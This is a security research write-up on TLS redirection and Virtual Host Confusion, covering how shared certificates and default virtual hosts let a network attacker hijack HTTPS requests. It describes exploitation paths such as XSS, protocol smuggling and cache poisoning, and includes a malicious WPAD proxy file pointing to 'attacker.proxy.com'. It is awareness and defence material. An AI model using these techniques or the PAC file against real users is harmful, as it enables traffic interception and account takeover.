

# TLS Redirection (and Virtual Host Confusion)

**The goal** of this document is to raise awareness of a little-known group of attacks, TLS redirection / Virtual Host Confusion, and to bring all the information related to this topic together.

<!-- TOC -->

- [TLS Redirection (and Virtual Host Confusion)](#tls-redirection-and-virtual-host-confusion)
    - [Intro](#intro)
    - [Terms](#terms)
    - [Docs](#docs)
    - [Technical details](#technical-details)
        - [Certificate/TLS features](#certificatetls-features)
        - [Vitrual host fallback](#vitrual-host-fallback)
    - [Attacks (MitM)](#attacks-mitm)
        - [Techniques](#techniques)
            - [MitM + iptables redirection](#mitm--iptables-redirection)
            - [Adversary proxy](#adversary-proxy)
            - [Cache poisoning attack](#cache-poisoning-attack)
        - [Tools (?)](#tools-)
    - [Exploitation techniques](#exploitation-techniques)
        - [File uploading (SDRF)](#file-uploading-sdrf)
        - [XSS](#xss)
        - [Self-XSS](#self-xss)
        - [Flash and crossdomain.xml](#flash-and-crossdomainxml)
        - [CORS](#cors)
        - [Protocol smuggling (CrossProtocol XSS)](#protocol-smuggling-crossprotocol-xss)
        - [Active content substitution](#active-content-substitution)
        - [JavaScript libs (and Protocol smuggling)](#javascript-libs-and-protocol-smuggling)
        - [HTTPS 2 HTTP redirect](#https-2-http-redirect)
        - [Reverse Proxy misrouting](#reverse-proxy-misrouting)
        - [Client Cert auth "bypass"](#client-cert-auth-bypass)
        - [Certificate Pinning](#certificate-pinning)
    - [Protection](#protection)

<!-- /TOC -->

## Intro

The main goal of TLS is to protect an encapsulated protocol from MITM attacks. To do this, TLS provides encryption, data integrity checking, and endpoint authentication. Authentication is performed via x509 certificates, which contain a list of domain names for which the certificate is valid. As a result, a client connecting to a server can make sure that it is connected to the required server (and not to a malicious server).

However, there are various types of certificates. For example, certificates with wildcard names. It means that several servers may use a shared certificate.

And it should be kept in mind that TLS works at the application level and does not know anything about the underlying protocols (IP, transport protocol). Thus, when a client connects to a server, the attacker can perform a MITM attack and redirect the client to another server (with a shared certificate). At the same time, it is not possible for client to find out which specific server it is connected.

Why "TLS redirection"? The initial name of the attacks is Virtual Host Confusion. Virtual Host Confusion is a part of a larger issue that stems from the SSL/TLS architecture (for example, an attack can be performed not only with the HTTP protocol). So TLS redirection covers a wider range of attacks including Virtual Host Confusion. Depending on circumstances you can use any of these terms.

**What are the consequences?**

It is important to note that this attack does not depend on the protocol encapsulated in the TLS. It can be HTTP, SMTP, TNS, etc. However, the consequences largely depend on the protocol "capabilities", and also on how much the attacker "controls" the behavior of the server where the redirection takes place to. Although, we can get the most interesting results using browsers with HTTP protocol.

Here is the simplest example with XSS. If HostB has an XSS vulnerability and both HostA and HostB use a shared certificate, attacker can force a user to send a request to HostA with XSS payload for HostB, perform a MITM attack, and redirect the request to HostB. HostB will process this request (using default virtual host) and respond with the XSS payload. However, for the user's browser, this response comes from HostA and, therefore, Javascript will be executed in the context of the HostA. Thus, the TLS redirection attack allows attackers to exploit bugs of vulnerable servers on hosts without vulnerabilities.

This also helps exploit vulnerabilities due to the incorrect use of certain technologies/protocols, each of which is not a vulnerability itself (without the use of TLS redirection attack).

More information on the attack techniques below.

## Terms
- Attacked Host/Server (HostA(ttacked) is the server under attack.
- TLS-brother Host/Server (HostB(rother)) is a server with a certificate or configuration, which includes the Attacked server due to [TLS specifics](#certificatetls-features).
- Shared (Overlapping) Certificate is a certificate that includes both the Attacked server and the TLS-brother server names.
- Same-Certificate Policy (similar to the Same Origin Policy) indicates that SSL/TLS provides the ability to authenticate the destination host to a certain degree of accuracy due to [TLS specifics](#certificatetls-features).

## Docs

The goal of the document is to bring all the information together (main ideas, techiques), but not to explain everything in details. So in order to fully understand the attacks, it's highly recommended to read all these white papers and presentations.

- [Network-based Origin Confusion Attacks against HTTPS Virtual Hosting](http://antoine.delignat-lavaud.fr/doc/www15.pdf) by Antoine Delignat-Lavaud and Karthikeyan Bhargavan
- [The BEAST Wins Again: Why TLS Keeps Failing to Protect HTTP](https://www.blackhat.com/docs/us-14/materials/us-14-Delignat-The-BEAST-Wins-Again-Why-TLS-Keeps-Failing-To-Protect-HTTP.pdf) by Antoine Delignat-Lavaud
- [Demos from "The BEAST Wins Again..."](https://bh.ht.vc/) by Antoine Delignat-Lavaud
- [MITM Attacks on HTTPS: Another Perspective](https://www.slideshare.net/GreenD0g/mitm-attacks-on-https-another-perspective/) by [@antyurin](https://twitter.com/antyurin)

## Technical details
### Certificate/TLS features
- port is ignored
- issued for multiple hosts (SAN and CN*)
- wildcard name
- TLS cache sharing**
- SSLv3 (no SNI)**
- HTTP/2 connection sharing**

CN* - Chrome hasn't supported CN field since 58

** - depends on configuration of web server and browser

### Vitrual host fallback
When an HTTP request comes to the TLS-brother server instead of the Attacked server, the SNI of the TLS request and the Host header of the request itself will indicate the name of the Attacked server.

In case the web server does not have a virtual host with the name of the Attacked server, the response comes from the default virtual host

## Attacks (MitM)
### Techniques
Here is a list of techniques to perform TLS-redirection attacks.

#### MitM + iptables redirection
When the Attacked server and the TLS-brother server have different IPs (or ports), then all connections are redirected to a host controlled by the attacker using various MITM techniques (arp-poisoning, for example). The IP address (port) is changed to the required one using iptables (for example).

#### Adversary proxy
By attacking WPAD, the attacker can force a user’s browser to use different proxy servers for different domain names using the PAC file. As the attacker controls the proxy server, he or she can redirect requests from the user’s browser.

Before the publication of several papers in 2016, attackers could set the rules at the URL level (Chrome, FF), and not just at the domain name level, which allowed more sophisticated TLS redirection attacks, for example, redirection and substitution of only parts of pages (Active Content Substitution attack). However, the technique is still useful for attacks at the domain name level. 

Chrome - fixed. FF - not fixed (last checked in Jan 2017).

Example of wpad file:

    function FindProxyForURL(url, host) {
        if (url == "https://HostA/crossdomain.xml") {
            alert("Req 2 HostA w/ crossdomain "+url);
            return "PROXY attacker.proxy.com:9999";
        } else if (url.indexOf('https://HostA') !== -1) {
            alert("Req 2 HostA "+url);
            return "PROXY attacker.proxy.com:8888";
        } else {
            alert("for another hosts "+url);
            return "DIRECT";
        }
    }

#### Cache poisoning attack
Most web servers add headers, which allow caching of static content (JS, CSS), by default. A browser caches responses binding them to the full URL, if there is a permission (in the headers from the web server).

In this attack, the attacker first forces the user's browser to load a specific script from the Attacked server, but then he redirects this request to the TLS-brother server by the TLS redirection attack. The server returns the script (which was originally uploaded by the attacker, for example). The user's browser caches the script.

After that, the attacker forces the user to send a request to the page (at the Attacked server) from which the script should be called. The browser receives the page and parses it. However, it does not load the script again, but takes it from the cache (i.e. the attacker's script from the TLS-brother server) and executes it.

### Tools (?)
- script for MitM (iptables)
- script for START TLS feature
- script for proxy-redirector

## Exploitation techniques

### File uploading (SDRF)
If any user-generated content (for example, HTML pages) can be uploaded to the TLS-brother server, then an attacker can execute JS code in the context of the Attacked server at the user's browser using the TLS redirection attack.

Moreover, the attacker can attack auto update services on the user’s host if he or she can place a file using the same path (on the TLS-brother server) over which the service tries to download the file from the Attacked server.

[Video: Virtual host confusion exploit against Dropbox](https://www.youtube.com/watch?v=CkOGKi0pKdk)

### XSS
If the TLS-brother server has an XSS vulnerability, the attacker can force the user's browser to send a request with XSS payload for the TLS-brother server to the Attacked server, perform a TLS redirection attack, and redirect the request to the TLS-brother server. TLS-brother server processes this request (using default virtual host) and responds with the XSS payload. However, for the user's browser, this response comes from the Attacked server and, therefore, Javascript will be executed in the context of the Attacked server.  

[Video: TLS Redirection / Virtual Host Confusion and XSS](https://youtu.be/9nr0YJb3wdQ)

### Self-XSS
If the TLS-brother server has a self-xss vulnerability (linked to a cookie), the attacker can expose his or her cookie from the TLS-brother server to the Attacked server via cookie forcing technique. Thus, during the TLS redirection attack, the HTTP request that goes to the TLS-brother server will contain cookies from the attacker, which will allow to exploit the self-XSS vulnerability in the context of the Attacked server successfully.

### Flash and crossdomain.xml
If the TLS-brother server contains crossdomain.xml with * (or if the attacker has access to the trusted name zone), then the attacker can place a special SWF file that will interact with the Attacked server on his or her web server. When the user’s browser executes the SWF file, the user's Flash sends a request for crossdomain.xml file, which is redirected to the TLS-brother server using the TLS redirection attack. The  Flash sees the permission for interaction (* is in the file) and caches it, thus allowing subsequent interaction with the Attacked server.

### CORS
If the TLS-brother server returns CORS headers, then, in case of successful TLS redirection attack, the attacker can send only one request to the Attacked server (with the modified headers/ method, depending on the CORS permissions) and cannot read the response from the Attacked server. This is due to the fact that the CORS headers are checked for each response and, in case of failure, the browser resets the CORS cache.

Thus, a successful attack is possible only if it is possible to change certain headers, critical to the Attacked server.

### Protocol smuggling (CrossProtocol XSS)
There are many text-based (and not only) protocols. Many of them allow "interaction" from the HTTP protocol, some protocols return all (or part) of the sent HTTP requests back. In this case, browsers parse the responses from such services, since they consider them as HTTP 0.9 (i.e. the body of the response without headers).

If the TLS-brother server has a service that "reflects" the request back, then it can be used to attack.
If a user uses IE browser, the attacker can force the user to send a special request with JS payload (XSS) to the Attacked server, but then, using the TLS redirection attack, redirect the user to the service on the TLS-brother server. The service will "reflect" the request, and given that the attacker can force the browser to parse the response as HTML (content-sniffing), the attacker can execute JS code in the context of the Attacked server.

In the case of other browsers, the response is parsed as text/plain, which does not allow an XSS attack. Nevertheless, the technique itself works as well. For example, if there is any XSS on the Attacked server already, it is possible to steal cookies (and other headers) using this technique (even if they are protected by the httpOnly flag).

[Video: TLS Redirection / Virtual Host Confusion and CrossProtocol XSS](https://youtu.be/Uc99yQsdFs0)

The following table shows the behavior of various applications: whether they return requests and whether they break connections due to a large number of errors (the tests are not clear enough, since they were conducted on random hosts on the Internet).

SMTP

| Software                             | Content reflection | No disconnect on errors |
|:-------------------------------------|:-------------------|:------------------------|
| Exim                                 | -                  | -                       |
| Postfix                              | -                  | +                       |
| SendMail                             | +                  | +                       |
| QMail                                | -                  | +                       |
| MS Exchange                          | - (?)              | - (?)                   |
| IBM Lotus Domino                     | +                  | +                       |
| Sun ONE Messaging Server (SendMail?) | +                  | +                       |
| IdeaSmtpServer                       | + (till space)     | +                       |

POP3

| Software               | Content reflection | No disconnect on errors |
|:-----------------------|:-------------------|:------------------------|
| Dovecot                | -                  | -                       |
| QMail                  | -                  | -                       |
| MS Exchange            | -                  | -                       |
| MailEnable POP3 Server | -                  | -(?)                    |
| IBM Lotus Domino       | + (till space)     | +                       |
| MDaemon                | -                  | -                       |
| WinGate                | + (till space)     | +                       |
| Kerio Connect          | -                  | +                       |
| Cyrus                  | -                  | +                       |
| Qpopper                | + (till space)     | +                       |

IMAP

| Software         | Content reflection | No disconnect on errors |
|:-----------------|:-------------------|:------------------------|
| Dovecot          | -                  | -                       |
| IMail            | +                  | +                       |
| UW imapd         | + (till 2nd space) | +                       |
| MS Exchange      | -(?)               | -                       |
| IBM Lotus Domino | + (till space)     | +                       |
| MDaemon          | + (till space)     | +                       |
| Kerio Connect    | + (till 2nd space) | +                       |
| Qpopper          | + (till 2nd space) | +                       |
| Cyrus            | + (till space)     | +                       |

### Active content substitution
Usually a page consists of html (with pictures) and active content, like JS, CSS, plugin objects, which can be embedded in the page and can be located in separate files.

In this attack, TLS redirection is used for redirecting only the requests to the active content. That means the user's browser receives html code from the Attacked server, and JS script, for example, from the TLS-brother server. Of course, to perform the attack, the attacker must be able to control the content of the JS script on the TLS-brother server.
To circumvent some of this attack limitations, you can use Relative Path Overwrite or similar techniques.

It is worth mentioning some facts, which make this attack more reliable, about behavior of browsers, if they execute the file from script element () with various headers or not:
- no browser cares about Content-Disposition header
- IE doesn't care about Content-Type header (without nosniff)
- FF, Chrome, Edge dont't execute script only if Content-Type is from "image" family (without nosniff)
- with X-Content-Type-Options, all the browsers requires correct Content-Type

[WPAD](#adversary-proxy) attack or [Cache poisoning attack](#cache-poisoning-attack) might be useful here.

[Video: TLS Redirection / Virtual Host Confusion and Active content substitution](https://youtu.be/WLxGHmyBNpE)

### JavaScript libs (and Protocol smuggling)
Nowadays web applications are full of JS libs. Modern approaches to development implicate that JS frameworks get content from the web server stealthy and asynchronously and display it to a user (like AJAX, Single Page Application, and so on). If the JavaScript of a web application on the Attacked server uses "insecure" functions, we can perform the TLS redirection attack.

For example, there is the TLS-brother server with a "reflection" service and the Attacked server that uses JQuery.load function to get content from the Attacked server. The [load function](http://api.jquery.com/load/) fetches content from a server and sets it to an appropriate element, so scripts from the content are executed.
An attacker uses the cookie forcing technique and sets an additional cookie in a user's browser for the Attacked server. The cookie contains XSS payload. An attacker forces a user's browser to open the Attacked server. When the whole page is loaded by a user, an attacker turns on the TLS redirection attack. The JQuery from the Attacked server tries to get some content using the load function; this request is redirected to the TLS-brother server. The service "reflects" the request back, but again for a user's browser it is HTTP/0.9 response. As Jquery doesn't care about Content-Type, the payload from the cookie will be executed. 

Similar attacks can be performed if an attacker controls the content of files on the TLS-brother server.

Potentially vulnerable features:
- JQuery's load
- JQuery's get, post, ajax (old version, with specific Content-Types)
- HTML import (test is required)

[WPAD](#adversary-proxy) attack or [Cache poisoning attack](#cache-poisoning-attack) might be useful here.

### HTTPS 2 HTTP redirect
If the TLS-brother server redirects the request to the HTTP protocol, then it will be possible to capture and steal some information from it (token, for example ) after it is redirected.

[Video: Virtual host confusion exploit against Pinterest](https://www.youtube.com/watch?v=h0VhFlTP2xw)

### Reverse Proxy misrouting
The case when TLS-brother is a reverse proxy and the attacker can control the routing of HTTP requests on the reverse proxy.

[Video: Virtual host confusion exploit against Akamai](https://www.youtube.com/watch?v=YKD-i4HbbGg)

### Client Cert auth "bypass"
If a system uses client authentication using a TLS certificate, then, in case of a TLS redirection attack, the client will not send its client certificate, because the TLS-brother server will not request it.

### Certificate Pinning
Certificate pinning allows you to bind a server name to a specific certificate, but if both the TLS-brother and the Attacked server use the same certificate, attacker can perform a TLS-redirection attack and, possibly, somehow affect the behavior of the client.

## Protection
- At the TLS protocol level, Alert is returned from the server if the SNI from the TLS request does not match the value from the certificate on the server.
  - Java halts the TLS connection with an error, browsers don't
- Default virtual host value can be set blank at the web server level;
- Group resources (shared certificate) by the level of security;
  - Locate web servers with user content in a separate domain (not in a subdomain) and a separate certificate.
- Hardening (like HSTS, SRI, Content sniffing, etc) can prevent or limit some types of attacks

